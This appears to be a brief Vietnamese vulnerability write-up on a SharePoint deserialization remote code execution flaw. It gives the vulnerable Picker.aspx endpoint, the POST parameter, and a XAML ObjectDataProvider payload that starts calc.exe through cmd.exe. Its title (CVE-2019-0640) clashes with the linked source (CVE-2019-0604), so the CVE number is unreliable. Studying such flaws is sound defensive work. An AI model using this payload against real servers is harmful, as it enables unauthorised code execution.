

# CVE-2019-0640

---

> **Type:** Remote Code Execution (XML deserialize)
>
> **Endpoint:**``/_layouts/15/Picker.aspx?PickerDialogType=Microsoft.SharePoint.WebControls.ItemPickerDialog,Microsoft.SharePoint,Version=15.0.0.0,Culture=neutral,PublicKeyToken=71e9bce111e9429c``

---

# Phân tích

- URL : **/_layouts/15/Picker.aspx**
- URI query : 
  - PickerDialogType=**Microsoft.SharePoint.WebControls.ItemPickerDialog**
  - PickerDialogType=**Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog**
- Params Post : ``ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData``

- Phân tích code :



- Khi param ``hiddenpanData`` được bắt đầu với ``__`` , mã chèn vào sẽ được xử lí ở dạng ``xmlSerializer`` và không có kiểm soát đầu vào => RCE
- XML:

```xml
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd.exe</System:String>
            <System:String>/c calc.exe</System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

---

https://adraft.page/index.php/2019/09/14/cve-2019-0604-sharepoint-rce-forensics-analysis-and-detection-methods/